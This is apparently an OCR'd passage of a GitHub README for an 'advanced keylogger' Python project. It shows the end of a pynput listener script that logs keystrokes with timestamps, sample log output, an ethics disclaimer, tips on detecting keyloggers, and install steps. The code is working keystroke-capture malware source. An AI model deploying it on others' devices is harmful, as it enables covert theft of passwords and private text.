 ```python
                return

        logging.info(letter)  # Log with timestamp
    except Exception as e:
        print(f"Error: {e}")

try:
    with Listener(on_press=on_press) as listener:
        print("Starting keyboard listener. Press Esc to stop.")
        listener.join()
except Exception as e:
    print(f"Failed to start listener: {e}")
Example Output in log.txt (typing "This is the advance keylogger out put" followed by Backspace and Esc):

text

Copy
2025-05-11 12:34:56,123: T
2025-05-11 12:34:56,124: h
2025-05-11 12:34:56,125: i
2025-05-11 12:34:56,126: s
2025-05-11 12:34:56,127: [Space]
2025-05-11 12:34:56,128: [Esc]


---



⚖️ 6. Ethical Considerations
This project is for learning and ethical research purposes only.
Do not use this to spy or steal information. Unauthorized use is illegal and unethical.
Always obtain explicit consent before using on someone else’s device.
Protect Against Keyloggers:
Use antivirus software to detect malicious keyloggers.
Avoid downloading software from untrusted sources.
Regularly check running processes for suspicious activity (e.g., on Windows, use Task Manager; on Linux, use ps or top).


---



🚀 7. Setup Instructions
Step 1: Install Python
Ensure Python 3.x is installed. Download from python.org.

Step 2: Install pynput
Install the pynput library using pip:

bash

Copy
pip install pynput
Or, if using requirements.txt:

bash

Copy
pip install -r requirements.txt
Step 3: Clone the Repository
```